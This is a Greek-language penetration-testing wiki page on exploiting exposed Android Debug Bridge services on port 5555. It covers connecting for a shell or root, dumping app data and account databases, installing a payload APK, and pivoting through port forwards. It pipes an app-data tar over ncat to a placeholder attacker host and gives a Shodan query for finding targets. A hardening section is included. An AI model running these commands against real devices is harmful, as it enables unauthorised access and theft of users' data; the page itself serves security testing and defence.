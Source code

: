 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Basic Information

Από [τα έγγραφα](https://developer.android.com/studio/command-line/adb):

Το Android Debug Bridge (adb) είναι ένα εργαλείο γραμμής εντολών για επικοινωνία με συσκευές και εξομοιωτές που βασίζονται σε Android. Τυπικές ενέργειες περιλαμβάνουν την εγκατάσταση πακέτων, την αποσφαλμάτωση και την απόκτηση ενός διαδραστικού Unix shell στη συσκευή.

- Ιστορική προεπιλεγμένη θύρα TCP: 5555 (κλασική λειτουργία "adb tcpip").
- Σύγχρονη ασύρματη αποσφαλμάτωση (Android 11+) χρησιμοποιεί TLS pairing και mDNS service discovery. Η θύρα σύνδεσης είναι δυναμική και ανακαλύπτεται μέσω mDNS; μπορεί να μην είναι 5555. Η ζεύξη γίνεται με adb pair host:port ακολουθούμενη από adb connect. Δείτε τις σημειώσεις παρακάτω για επιθετικές επιπτώσεις.

Παράδειγμα δακτυλοσκόπησης nmap:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Συνδέσου

Αν βρεις το ADB εκτεθειμένο και προσβάσιμο, προσπάθησε να συνδεθείς και να καταγράψεις γρήγορα:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Αν η συσκευή επιβάλλει την αυθεντικοποίηση ADB (ro.adb.secure=1), θα χρειαστεί να είστε προεξουσιοδοτημένοι (USB RSA auth) ή να χρησιμοποιήσετε την ασύρματη ζεύξη αποσφαλμάτωσης Android 11+ (η οποία απαιτεί έναν κωδικό μίας χρήσης που εμφανίζεται στη συσκευή).
- Ορισμένες εικόνες προμηθευτών, κατασκευές engineering/userdebug, εξομοιωτές, τηλεοράσεις, STB και κιτ ανάπτυξης εκθέτουν το adbd χωρίς αυθεντικοποίηση ή με το adbd να εκτελείται ως root. Σε αυτές τις περιπτώσεις, θα προσγειωθείτε συνήθως απευθείας σε ένα shell ή root shell.

Για μια γενική αναφορά εντολών ADB, δείτε:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Γρήγορη Μετά-Εκμετάλλευση

Μόλις έχετε shell, επιβεβαιώστε τα δικαιώματα και το πλαίσιο SELinux:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Καταμέτρηση και συλλογή δεδομένων

- Λίστα τρίτων εφαρμογών και διαδρομών:
```bash
pm list packages -3
pm path <pkg>
```
- Αν έχετε root (adb root ή su λειτουργεί), μπορείτε να έχετε πρόσβαση στο /data απευθείας. Αν όχι, προτιμήστε το run-as για εφαρμογές που μπορούν να αποσφαλματωθούν:
```bash
# Χωρίς root, για μια αποσφαλματωμένη εφαρμογή
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Με root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Χρήσιμα συστήματα τεκμηρίωσης (απαιτείται root):
- /data/system/users/0/accounts.db και σχετικά δεδομένα AccountManager
- /data/misc/wifi/ (ρυθμίσεις/κλειδιά δικτύου σε παλαιότερες εκδόσεις)
- Ειδικές βάσεις δεδομένων SQLite και shared_prefs κάτω από /data/data/<pkg>

Μπορείτε να το χρησιμοποιήσετε για να ανακτήσετε ευαίσθητες πληροφορίες (π.χ., μυστικά εφαρμογών). Για σημειώσεις σχετικά με τις παρατηρήσεις δεδομένων του Chrome, δείτε το ζήτημα που αναφέρεται [εδώ](https://github.com/carlospolop/hacktricks/issues/274).

### Εκτέλεση κώδικα και παράδοση payload

- Εγκαταστήστε και αυτόματα παραχωρήστε δικαιώματα εκτέλεσης:
```bash
adb install -r -g payload.apk         # -g παραχωρεί όλα τα δικαιώματα εκτέλεσης που δηλώνονται στο manifest
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Ξεκινήστε δραστηριότητες/υπηρεσίες/εκπομπές απευθείας:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Προώθηση θυρών και pivoting

Ακόμα και χωρίς root, το adb μπορεί να προωθήσει τοπικές θύρες σε θύρες συσκευής και το αντίστροφο. Αυτό είναι χρήσιμο για την πρόσβαση σε υπηρεσίες που είναι δεσμευμένες τοπικά στη συσκευή ή για την έκθεση υπηρεσιών επιτιθέμενου στη συσκευή.

- Προώθηση host->device (πρόσβαση σε μια τοπική υπηρεσία της συσκευής από τον υπολογιστή σας):
```bash
adb forward tcp:2222 tcp:22       # Αν η συσκευή τρέχει SSH (π.χ., Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Εκθέστε τον τοπικό διακομιστή αποσφαλμάτωσης της εφαρμογής
```
- Αντίστροφη device->host (να επιτρέψετε στη συσκευή να φτάσει σε μια υπηρεσία στον υπολογιστή σας):
```bash
adb reverse tcp:1080 tcp:1080     # Οι εφαρμογές της συσκευής μπορούν τώρα να φτάσουν στο host:1080 ως 127.0.0.1:1080
```
- Εξαγωγή αρχείων μέσω sockets (χωρίς εγγραφές sdcard):
```bash
# Στον υπολογιστή: άκου
ncat -lvp 9000 > dump.tar
# Στη συσκευή: στείλτε τον κατάλογο ως tar (root ή run-as όπως απαιτείται)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Ασύρματη αποσφαλμάτωση (Android 11+)

Ο σύγχρονος Android υλοποιεί την ασύρματη αποσφαλμάτωση προστατευμένη με TLS με ζευγάρωμα από την πλευρά της συσκευής και ανακάλυψη mDNS:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Σημειώσεις
- Οι θύρες είναι δυναμικές; μην υποθέτετε 5555. Τα ονόματα υπηρεσιών mDNS μοιάζουν με:
- _adb-tls-pairing._tcp (ζευγάρωμα)
- _adb-tls-connect._tcp (συνδεδεμένο ζευγάρωμα)
- _adb._tcp (παλαιά/απλή)
- Εάν το mDNS είναι φιλτραρισμένο, η κλασική ενεργοποίηση μέσω USB μπορεί να λειτουργήσει σε ορισμένες εκδόσεις: `adb tcpip 5555` και στη συνέχεια `adb connect <ip>:5555` (μέχρι την επανεκκίνηση).

Επιθετικές επιπτώσεις: αν μπορείτε να αλληλεπιδράσετε με το UI της συσκευής (π.χ., φυσική πρόσβαση ή κακή ρύθμιση MDM κινητού) για να ενεργοποιήσετε την ασύρματη αποσφαλμάτωση και να δείτε τον κωδικό ζευγαρώματος, μπορείτε να δημιουργήσετε ένα μακροχρόνιο ζευγαρωμένο κανάλι ADB χωρίς καλώδιο. Ορισμένοι OEMs εκθέτουν το ADB μέσω TCP σε εικόνες μηχανικής/ανάπτυξης χωρίς ζευγάρωμα—πάντα ελέγξτε.

## Σκληροποίηση / Ανίχνευση

Οι αμυντικοί θα πρέπει να υποθέτουν ότι οποιοδήποτε προσβάσιμο adbd (TCP) είναι κρίσιμος κίνδυνος.

- Απενεργοποιήστε το ADB και την ασύρματη αποσφαλμάτωση όταν δεν χρειάζεστε. Ανακαλέστε τις εξουσιοδοτήσεις αποσφαλμάτωσης USB στις επιλογές προγραμματιστή.
- Βεβαιωθείτε ότι η πολιτική δικτύου μπλοκάρει την εισερχόμενη TCP/5555 και την ανακάλυψη ADB μέσω mDNS σε μη αξιόπιστα τμήματα.
- Σε συσκευές υπό τον έλεγχό σας:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # απενεργοποίηση ακρόασης TCP (ή χρησιμοποιήστε: adb usb)
stop adbd; start adbd             # επανεκκίνηση του δαίμονα
```
- Παρακολουθήστε για εγγραφές mDNS `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` σε εταιρικά δίκτυα και ειδοποιήσεις για απροσδόκητους ακροατές 5555.
- Καταγράψτε για ανασφαλείς εκδόσεις: `getprop ro.debuggable`, `ro.build.type`, και `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Αναφορές

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
